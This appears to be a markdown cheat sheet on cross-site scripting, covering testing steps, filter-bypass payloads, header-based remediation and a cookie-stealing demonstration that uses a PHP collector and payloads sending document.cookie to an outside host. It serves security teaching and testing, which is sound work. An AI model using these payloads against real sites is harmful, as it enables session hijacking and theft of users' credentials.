 # XSS

## Information
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into trusted website.

XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.

OWASP TOP 10: A7-Cross-Site Scripting (XSS)

## Impact
Malicious script can access any cookies, session tokens, or other sensitive information

## Types of XSS
- *Stored XSS*
- *Reflected XSS*
- *DOM Based XSS*

## How to Test (Black Box Testing)
***1. Detect input vectors. For each web page***
- HTTP parameters
- POST data
- Hidden form field values
- Predefined Radio or Selection values

***2. Analyze each input vector to detect potential vulnerabilities***
- (greater than)>
- <(less than) 
- &(ampersand) 
- '(apostrophe or single quote) 
- "(double quote)
- e. g. <script>alert(123)</script>

***3. POC***
```
<script>alert(document.cookie)</script>
<script>alert(document.location)</script>
```

## HTML Filtered Content
- \n (new line) 
- \r (carriage return) 
- \' (apostrophe or single quote) 
- \" (double quote) 
- \\ (backslash) 
- \uXXXX (unicode values)

## Bypass XSS Filters 
Filters are based on a blacklist, they could not block every type of expressions

### e.g. payload’s:
***1. Different Syntax | Encoding***
```
" onfocus="alert(document.cookie)
"><script >alert(document.cookie)</script >
"><ScRiPt>alert(document.cookie)</ScRiPt>
"%3cscript%3ealert(document.cookie)%3c/script%3e
```
***2. Bypassing non-recursive filtering***
```
<scr<script>ipt>alert(document.cookie)</script>
```
***3. Including external script***
```
<script src="http://attacker/xss.js"></script>
http://example/?var=<SRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
```

> https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet (XSS Filter Evasion Cheat Sheet)
> https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt
> https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection

## XSS - Remediation     
### Server-Side Validation
- [x] X-XSS-Protection
```
X-XSS-Protection: 0
X-XSS-Protection: 1
X-XSS-Protection: 1; mode=block
X-XSS-Protection: 1; report=<reporting-uri>
```
- ***0***	xss filter disabled
- ***1***	xss filter enabled and sanitized the page if attack detected
- ***1;mode=block***	xss filter enabled and prevented rendering the page if attack detected
- ***1;report=http://example.com/report_URI***	xss filter enabled and reported the violation if attack detected

***Refrence:***
> https://geekflare.com/http-header-implementation/#X-XSS-Protection
> https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection

### Client | Application side Validation
> https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet (XSS Prevention Cheat Sheet)
> https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet (DOM based XSS Prevention Cheat Sheet)
> https://www.wordfence.com/learn/how-to-prevent-cross-site-scripting-attacks   (Functions to Validate your Data)

## XSS - Demonstration
Retrieve User Cookie Using XSS
1. Create ***steal.php*** file contect with below code.
```
<?php
$cookie=$_COOKIE['PHPSSID'];
$file=fopen('cookie.txt', 'a');
fwrite($file, $cookie . "\n\n");
?>
```
2. Create ***cookie.txt*** file on same directory.
3. Host ***steal.php*** page publicaly which can accessible through internet.
4. Insert Script on Vulnerable Parameter.
```
<script>document.location="http://hostname/steal.php"</script>
e.g:
<script>document.location="http://192.168.88.128/steal.php"</script>

<img src=a onerror=confirm(document.location="http://192.168.88.130/steal.php?cookie=" + document.cookie;)>

```
